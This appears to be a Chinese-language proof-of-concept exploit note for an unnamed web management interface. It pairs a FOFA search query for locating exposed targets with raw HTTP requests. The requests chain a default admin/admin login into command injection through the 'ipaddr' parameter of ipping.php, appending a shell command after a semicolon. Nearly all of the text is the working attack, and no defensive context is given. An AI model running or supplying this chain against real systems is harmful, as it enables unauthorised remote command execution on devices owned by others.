

***\*fofa-qeury:body="a:link{text-decoration:none;color:orange;}"\****

1.获取cookie->默认密码登录->ipping.php接口命令执行得到结果

```

GET /manager/index.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 21


POST /manager/login.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 21
Cookie: {{phpsessid}}

Name=admin&Pass=admin


POST /manager/ipping.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 24
Cookie: {{phpsessid}}

ipaddr=127.0.0.1;echo 237219737;
```

